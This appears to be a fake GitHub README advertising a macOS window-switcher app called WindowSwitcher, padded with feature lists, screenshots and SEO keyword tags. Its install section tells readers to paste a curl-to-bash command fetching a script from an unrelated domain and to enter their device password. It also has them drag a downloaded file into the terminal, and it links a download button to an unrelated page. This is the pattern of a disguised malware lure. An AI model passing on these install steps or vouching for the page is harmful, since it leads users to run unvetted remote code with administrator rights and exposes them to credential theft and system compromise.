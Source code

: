 <p align="center">
  <img src="https://i.ibb.co/sp7YkgQz/1629034241-windowswitcher-icon.png" alt="WindowSwitcher macOS Banner" />
</p>

<h1 align="center">WindowSwitcher for macOS</h1>

<p align="center">
  🔄 Switch between open apps and windows with live previews, shortcuts, and layout controls — multitasking, upgraded.  
  <br><br>
  ✅ Native Apple Silicon (M1/M2/M3)  
  ✅ Works on Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/236" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20WINDOWSWITCHER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download WindowSwitcher for macOS">
  </a>
</p>

---


## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/rKQfSp6j/1629092309-1.jpg" alt="WindowSwitcher Screenshot macOS UI" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is WindowSwitcher for macOS?

**WindowSwitcher** enhances macOS multitasking by letting you switch between open windows and apps visually — with real-time previews, keyboard shortcuts, and layout options. Instead of just ⌘-Tab, you get full control over window placement, sizing, and organization.

It’s ideal for power users, developers, and productivity-focused professionals who want a fast and elegant way to manage multitasking.

---

## ✅ Why Choose WindowSwitcher?

- 🔍 **Live Previews of All Windows**  
- ⌨️ **Keyboard Shortcuts for Instant Switching**  
- 🖼️ **Custom Grid Layouts & Drag Zones**  
- 🎯 **Close, Minimize, Resize from Switcher UI**  
- 🍎 **Native M1/M2/M3 Optimization**  
- 🧠 **Works in Fullscreen + Multi-Monitor Mode**  
- ⚡ **Ultra-Low Overhead, Blazing Fast Response**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/V8XX75g/1629092310-2.jpg" alt="Grid Layout View in WindowSwitcher" />
  <br><br>
  <img src="https://i.ibb.co/1Gk4DSCc/1629092310-3.jpg" alt="WindowSwitcher Active Preview View" />
</p>

---

## 🚀 Key Features

- Modern replacement for ⌘-Tab  
- Visual switcher with icons and previews  
- Drag windows into layout zones  
- Resize & close windows directly from switcher  
- Works across spaces and desktops  
- Retina-ready with smooth transitions  
- Fast, lightweight, and privacy-friendly  
- Full keyboard navigation & shortcut support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow WindowSwitcher manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Utility-Window+Switcher+Enhancer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Input-Keyboard+Mouse+Drag-drop-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ WindowSwitcher – Power Multitasking

Thanks for using **WindowSwitcher for macOS**.  
Upgrade your workspace with smarter window control.

---

## 🧭 Usage Context

This app is designed for local use with no internet dependency.  
All interactions occur on-device, without telemetry or cloud sync.  
Great for multitasking workflows in coding, design, and daily use.

---

## 🔍 Tags

```text
windowswitcher for mac download, mac window switcher app m1 m2, windowswitcher live preview switcher mac, mac app switcher with layouts and keyboard, visual task switcher utility macbook pro, mac window grid and snap preview utility, windowswitcher native silicon optimized app, switch between apps fullscreen mac switcher, download windowswitcher for sonoma ventura, mac multitasking improvement tool, keyboard shortcut window switcher mac, windowswitcher drag and drop layout zones, windowswitcher modern cmd tab replacement, fast app switching mac with previews, mac window manager live icon preview mode
